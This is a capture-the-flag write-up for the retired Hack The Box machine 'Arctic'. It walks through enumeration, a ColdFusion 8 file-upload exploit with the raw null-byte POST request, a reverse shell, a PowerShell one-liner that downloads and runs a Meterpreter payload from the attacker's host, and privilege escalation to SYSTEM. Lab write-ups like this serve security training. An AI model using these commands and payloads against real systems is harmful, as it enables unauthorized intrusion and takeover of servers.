 # Arctic

This is the write-up for the box Arctic that got retired at the 7th July 2017.
My IP address was 10.10.14.13 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.11    arctic.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/arctic.nmap 10.10.10.11
```

```markdown
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking Port 8500

Browsing to port 8500 gives us an index page with two folders called _CFIDE_ and _cfdocs_.
In the path _CFIDE/administrator/_ we get forwarded to a web page that displays a login prompt for **Adobe Coldfusion 8**.

Looking for vulnerabilities shows an **ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)** for this version of Adobe Coldfusion that has a Metasploit module we are going to use.

```markdown
searchsploit coldfusion
```

In Metasploit we can use the module now:
```markdown
use exploit/windows/http/coldfusion_fckeditor

set RHOSTS 10.10.10.11

set RPORT 8500
```

As the server responds very slowly to requests and the payload does not wait for long, this will fail.
Let us examine why this fails by sending the request through _Burpsuite_.

**Burpsuite**:
Proxy --> Options --> Add Proxy Listener
- Bind to port: 8500
- Bind to address: 127.0.0.1
- Redirect to host: 10.10.10.11
- Redirect to port: 8500

Now we can browse to _localhost:8500_ to execute the Metasploit payload locally and examine the traffic in Burpsuite.
```markdown
set RHOSTS 127.0.0.1
```

The POST request we are sending looks like this:
```markdown
POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/G.jsp%00 HTTP/1.1
Host: 127.0.0.1:8500
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Content-Type: multipart/form-data; boundary=_Part_559_3663607441_2109420688
Content-Length: 1588
Connection: close

--_Part_559_3663607441_2109420688
Content-Disposition: form-data; name="newfile"; filename="KCNKUAKE.txt"
Content-Type: application/x-java-archive

(...payload code...)
```

The problem is the **NULL Byte** at the end of the folder (G.jsp%00) that terminates the request before the filename (KCNKUAKE.txt) can be created.
The response is:
```markdown
window.parent.OnUploadCompleted( 0, "/userfiles/file/G.jsp/KCNKUAKE.txt", "KCNKUAKE.txt", "0" );
```

If we manually navigate to the path _10.10.10.11:8500/userfiles/file/G.jsp_ and start a listener on port 4444 we will get a reverse shell if we wait a while.

## Privilege Escalation

Now we have a session on the box with the user _tolis_.
As we still want a Meterpreter session we will create a payload with _Magic Unicorn_ and upload that to the box.
```markdown
/usr/share/unicorn-magic/unicorn.py windows/meterpreter/reverse_tcp 10.10.14.13 9001
```

This will create a payload file with Powershell code in it called **powershell_attack.txt** and a file called **unicorn.rc** which is used so Metasploit loads all the correct commands for this payload.
```markdown
msfconsole -r unicorn.rc
```

To execute the payload code we start a web server on our local machine and download it from the box with Powershell:
```markdown
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13:8000/exploit.txt')"
```

After executing this, the file will be downloaded from the box and executed. This will start a meterpreter session on Metasploit.

Now we can use the _local_exploit_suggester module_ to enumerate for vulnerabilites:
```markdown
use post/multi/recon/local_exploit_suggester
```

We will use the suggested exploit _exploit/windows/local/ms10_092_schelevator_ tp escalate our privileges:
```markdown
use exploit/windows/local/ms10_092_schelevator

set session 1

run
```

When this exploit finishes we get a session back as _NT Authority/SYSTEM_ and finished the box!
